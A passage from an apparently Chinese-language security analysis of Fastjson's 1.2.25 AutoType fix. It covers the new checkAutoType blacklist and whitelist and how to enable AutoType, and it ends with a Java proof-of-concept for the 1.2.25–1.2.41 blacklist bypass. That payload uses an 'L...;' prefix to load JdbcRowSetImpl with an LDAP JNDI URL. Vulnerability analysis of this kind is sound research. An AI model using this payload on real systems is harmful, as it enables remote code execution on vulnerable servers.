 [![](https://p2.ssl.qhimg.com/t01085a5b6ca5669e95.png)](https://p2.ssl.qhimg.com/t01085a5b6ca5669e95.png)

修复改动：
1. 自从1.2.25 起 autotype 默认为False
1. 增加 checkAutoType 方法，在该方法中进行黑名单校验，同时增加白名单机制
[Fastjson AutoType说明](https://github.com/alibaba/fastjson/wiki/enable_autotype)

根据官方文档开启AutoType的方式，假设不开启该功能是无法进行反序列化的。因为默认白名单是空的，需要自定义。白名单的绕过基本不可能，都是从黑名单作为入口。白名单需要添加，而黑名单中则是内置在Fastjson中。

#### <a class="reference-link" name="1%E3%80%81JVM%E5%90%AF%E5%8A%A8%E5%8F%82%E6%95%B0"></a>1、JVM启动参数

```
-Dfastjson.parser.autoTypeSupport=true
```

#### <a class="reference-link" name="2%E3%80%81%E4%BB%A3%E7%A0%81%E4%B8%AD%E8%AE%BE%E7%BD%AE"></a>2、代码中设置

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

下面来看代码，这里使用了IDEA中的jar包对比功能

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01b82012d0e7ab7d26.png)

可以看到`DefaultJSONParser`发送了变动，在这里多了一个`checkAutoType`方法去做校验。

跟进方法查看

[![](https://p4.ssl.qhimg.com/t01ff09cbbfe74b70b2.png)](https://p4.ssl.qhimg.com/t01ff09cbbfe74b70b2.png)

前面会进行白名单的校验，如果匹配中的话调用loadClass加载，返回一个Class对象。 这里默认白名单的列表为空。

[![](https://p4.ssl.qhimg.com/t0137bc6df439407d56.png)](https://p4.ssl.qhimg.com/t0137bc6df439407d56.png)

后面这则是会恶意类的黑名单进行匹配，如果加载类的前面包含黑名单所定义的字符则抛出异常。

### <a class="reference-link" name="1.2.25-1.2.41%20%E7%BB%95%E8%BF%87"></a>1.2.25-1.2.41 绕过

```
package com.nice0e3;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class POC `{`
    public static void main(String[] args) `{`
    //ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String PoC = "`{`\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\", \"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\", \"autoCommit\":true`}`";
        JSON.parse(PoC);
    `}`
`}`
```
